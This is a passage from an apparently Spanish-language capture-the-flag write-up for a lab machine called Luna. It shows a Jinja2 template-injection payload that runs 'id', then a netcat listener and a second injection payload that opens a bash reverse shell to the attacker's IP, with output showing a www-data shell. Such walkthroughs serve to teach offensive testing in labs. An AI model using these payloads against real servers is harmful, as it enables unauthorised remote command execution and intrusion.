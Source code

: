 Entonces, vamos a probar si ejecuta el comando **id** con el siguiente payload:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% endraw %}

Probémoslo:

<p align="center">
<img src="/assets/images/THL-writeup-luna/Captura10.png">
</p>

Excelente, si lo está ejecutando.

Directamente, utilicemos una **Reverse Shell** de **Bash**.

Inicia un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Ahora, ejecutamos la **Reverse Shell** con el siguiente payload:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'").read() }}
```
{% endraw %}

Una vez que la ejecutes en la página web, observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.50] 34214
bash: cannot set terminal process group (748): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Luna:~/RODGAR$ whoami
whoami
www-data
```
Listo, estamos dentro.
